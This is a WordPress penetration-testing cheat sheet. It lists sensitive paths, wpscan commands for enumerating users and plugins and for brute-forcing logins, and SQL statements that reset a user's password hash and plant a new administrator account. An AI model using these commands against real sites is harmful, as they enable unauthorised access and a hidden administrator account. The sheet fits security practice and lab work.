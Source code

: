 # wordpress

## Interesting Paths

```bash
# login page
/wp-login.php
/wp-admin/

# themes location
/wp-content/themes/<>/404.php

# plugin location
http:///wp-content/plugins/
/wp-content/plugins/<>/

# config file
/wp-config.php

# site health leaks information about host/services etc. (authenticated)
/wp-admin/site-health.php?tab=debug
```

## wpscan

```bash
# do not pass url to login page.
$ wpscan --url IP [-e FLAG] [--plugins-detection [aggressive | mixed] -t 80] [--usernames <>] [--api-token XX]

# -e: enumerate <>
# [p| vp | ap]: [plgins | vulnerable plugins | all plugins]
# u: users
# t: themes
# --disable-tls-checks: for https

# blank for all enum
wpscan --url <IP> -e vp, u

# brute force login
wpscan --url <IP> --usernames <users> --passwords <pass> --max-threads 50
```

## Update Password

* [useotools.com/wordpress-password-hash-generator](https://www.useotools.com/wordpress-password-hash-generator)

```bash
# pass: kashz
UPDATE `wp_users` SET `user_pass` = '$P$BuFjqko0rfp9.fRk9Ld2CRc6hsG0nd0' WHERE ID = <>;
```

## make user admin | db: mysql

* [wpbeginner.com/how-to-add-an-admin-user-to-the-wordpress-database-via-mysql/](https://www.wpbeginner.com/wp-tutorials/how-to-add-an-admin-user-to-the-wordpress-database-via-mysql/)

```bash
# may need to change UID: 4
INSERT INTO wp_users VALUES ('4', 'kashz', MD5('kashz'), 'kashz', 'kashz@DOMAIN.COM', 'http://DOMAIN.COM/', '2020-12-16 14:51:26', '', '0', 'kashz');
INSERT INTO wp_usermeta VALUES (NULL, '4', 'wp_capabilities', 'a:1:{s:13:"administrator";s:1:"1";}');
INSERT INTO wp_usermeta VALUES (NULL, '4', 'wp_user_level', '10');
```
